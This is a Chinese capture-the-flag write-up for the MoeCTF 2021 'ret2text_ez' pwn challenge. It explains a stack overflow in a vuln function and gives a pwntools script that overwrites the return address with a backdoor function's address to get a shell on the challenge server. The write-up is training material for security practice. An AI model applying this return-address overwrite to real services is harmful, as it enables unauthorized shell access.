


## 基本信息

- 题目名称：[MoeCTF 2021]ret2text_ez
- 题目链接：https://www.nssctf.cn/problem/3406
- 考点清单：ret2text
- 工具清单：gdb，python-pwntools

- payloads：详见本文末尾

## 一、看到什么

- 反汇编发现4个自定义函数



- vuln函数是栈溢出漏洞函数（read溢出0x12），backdoor函数后门函数，直接调用shell



## 二、想到什么解题思路

### 第一轮

- 直接栈溢出+ret2text跳转至backdoor

## 三、尝试过程和结果记录

### 第一轮

- payload = b”a”*0x28 + p64(0x401196)

## 四、Payload

```python
from pwn import *
rmt = "node5.anna.nssctf.cn"
pt = 26754
p = remote(rmt,pt)
elf = ELF("./retez")
padding = (0x20+0x8)*b'a'
backdoor = p64(0x401196)
payload = padding + backdoor
p.sendline(payload)
p.interactive()
```

